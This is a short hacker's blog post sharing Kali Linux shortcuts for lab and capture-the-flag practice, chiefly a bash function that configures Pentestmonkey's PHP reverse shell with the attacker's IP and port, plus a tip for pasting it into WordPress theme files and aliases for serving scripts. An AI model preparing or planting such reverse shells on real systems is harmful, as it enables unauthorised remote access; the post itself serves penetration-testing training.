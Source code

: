 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
 - PHP Reverse Shell
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain repeated processes when hacking boxes. Life's too short to be wasting time on such things.

---

## PHP Reverse Shell Generator


This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. 

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal. The original script can be found on [Pentestmonkey here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`
<br>e.g. `phprev tun0 1234`


~~~bash
# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}
~~~

If you need to copy and paste the script somewhere(e.g wordpress theme files), just use the following to have the contents copied to your clipboard quickly:

~~~bash
cat rev.php | xclip -sel clip
~~~

---

## Bash Aliases


Sometimes you have many folders that you need to navigate quickly, or long commands that you type. These can be shortened, saving lots of time and gives great convenience in the long run. This is a sample of what I have inside my `/root/.bash_aliases` file. If you don't have it. After adding aliases in, restart your terminal.

~~~bash
# Directories

alias htb='cd ~/0x4a/Hackthebox'
alias vhl='cd ~/0x4a/VirtualHackingLabs'
alias pwk='cd ~/0x4a/PWK'
alias scripts='cd ~/Try-Harder/Scripts'
alias linenum='cd ~/Try-Harder/Scripts/Linux-PrivEsc'
alias hostlse='cd ~/Try-Harder/Scripts/Linux-PrivEsc && python -m SimpleHTTPServer'
alias armoury='cd ~/The-Armoury'

# vpn

alias ovpn='openvpn ~/0x4a/Hackthebox/openvpn/Dreamscent.ovpn'

# Other

alias hosts='nano /etc/hosts'
alias tun0='ifconfig tun0 | head -n2'
alias ppp0='ifconfig ppp0 | head -n2'
alias pyhttp='python -m SimpleHTTPServer'
~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
